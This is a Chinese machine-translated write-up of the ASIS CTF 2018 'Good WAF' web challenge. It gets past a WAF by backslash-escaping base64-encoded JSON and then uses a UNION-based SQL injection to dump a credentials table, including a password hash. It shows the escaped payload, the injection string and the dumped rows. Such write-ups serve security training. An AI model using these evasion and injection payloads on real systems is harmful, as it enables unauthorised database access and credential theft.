


# WAF 规避— Base64 参数— ASISCTF 2018 Quals —良好的 WAF 问题记录(网络任务)

> 原文：<https://infosecwriteups.com/waf-evasion-base64-parameter-asisctf-2018-quals-good-waf-question-write-up-web-task-c8454d33ba4d?source=collection_archive---------3----------------------->

参与者被问了以下问题。

> 描述:
> 
> WAFs 无法检测填充了不透明数据(如 base64)的参数。因此，我们已经调整了我们的[晶片](http://167.99.12.110/)来更强地检查这些输入。
> 
> **提示 1** : base64(json_object)

从这个问题中，可以理解为我们被赋予了一个受 WAF 保护的 base64 输入。打开网址[http://167.99.12.110/](http://167.99.12.110/):



网络问题/好的 WAF

我从转换成 base64 开始

```
**Notice**: Undefined property: stdClass::$data in **/var/www/html/index.php** on line **37**
```

所以合适的对象是`{"data":"1"}`，我得到了结果。之后，我尝试在 object 中注入 SQL 查询，尝试了大多数可能的方法(大约 1 小时),得到了:



检测到晶片

在我发现了 base64 数据中的一个技巧后，我走错了路

```
echo irGeeks | base64 | sed 's/./\\&/g;s/&//' | xargs -I x sh -c "echo x | base64 -d"
```

我立即测试了恶意输入，达到了我想要的效果。

```
[?object=\e\y\J\k\Y\X\R\h\I\j\o\i\M\S\c\i\f\Q\=\=](http://167.99.12.110/?object=\e\y\J\k\Y\X\R\h\I\j\o\i\M\S\c\i\f\Q\=\=)
```

在一些基本的查询之后，它变成了一个简单的 SQLi:

```
{"data":"-1' union all select 1,group_concat(id,0x7c,username,0x7c,password,0x7c,role) from credentials-- -"}
```

导致了:

```
1|valid_user|5f4dcc3b5aa765d61d8327deb882cf99|administrator
```

等等，登录页面在哪里？有一个名为`access_logs`的表包含一些 apache 访问日志行，在`id=14`中，一个 URL 被泄露

```
14|167.99.12.110 - - [22/Apr/2018:15:40:23 +0430] "GET /?action=log-in HTTP/1.1" 200 681 "-" "Mozilla/5.0 (Linux; Android 6.0.1; SM-G920V Build/MMB29K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.98 Mobile Safari/537.36"
```

访问网址`/?action=log-in`:

```
**Notice**: Undefined index: credentials in **/var/www/html/index.php** on line **21**

**Notice**: Undefined index: credentials in **/var/www/html/index.php** on line **22**
Invalid Credentials.
```

> [凭证](http://167.99.12.110/?action=log-in&credentials[]=valid_user&credentials[]=password) [=](http://167.99.12.110/?action=log-in&credentials=)

```
**Notice**: Uninitialized string offset: 0 in **/var/www/html/index.php** on line **21**

**Notice**: Uninitialized string offset: 1 in **/var/www/html/index.php** on line **22**
Invalid Credentials.
```

> [凭证[]=有效 _ 用户&凭证[]=密码](http://167.99.12.110/?action=log-in&credentials[]=valid_user&credentials[]=password)

```
**ASIS{e279aaf1780c798e55477a7afc7b2b18}**
```